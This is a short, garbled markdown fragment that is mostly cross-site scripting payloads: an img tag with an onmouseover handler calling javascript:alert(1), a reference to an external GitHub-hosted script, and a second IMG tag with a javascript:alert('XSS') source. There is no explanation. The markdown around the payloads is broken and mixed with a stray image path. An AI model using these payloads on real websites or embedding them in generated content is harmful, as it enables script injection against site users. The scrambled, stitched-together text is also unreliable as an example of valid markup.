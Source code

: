 ![
%0a
<img src="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" alt="%08javascript:alert(1)" onmouseover="javascript:alert(1)" style="background-image('');"/>

<IMG SRC= color=javascript%3aalert(&quot;XSS&quot;) >
  
](()
